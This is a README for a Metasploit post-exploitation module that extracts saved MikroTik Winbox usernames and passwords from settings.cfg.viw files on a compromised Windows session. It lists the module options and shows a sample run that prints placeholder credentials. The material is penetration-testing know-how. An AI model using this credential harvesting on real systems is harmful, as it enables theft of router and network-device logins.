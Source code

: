 # Metasploit - winbox_settings

Post module for Metasploit to extracts Mikrotik Winbox credentials saved in the settings.cfg.viw file.

## Module options

```
Module options (post/windows/gather/credentials/winbox_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  5                yes       The session to run this module on
   VERBOSE  false            no        HexDump settings.cfg.viw files
```

## Example

```
msf6 post(windows/gather/credentials/winbox_settings) > run

[*] VERBOSE: false
[*] Checking Default Locations...
[*] C:\Users\Administrator\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw not found ....
[*] Found File at C:\Users\FooBar\AppData\Roaming\Mikrotik\Winbox\settings.cfg.viw
[+] Login: ThisIsUsername
[+] Password: ThisIsPassword
[*] Post module execution completed
```
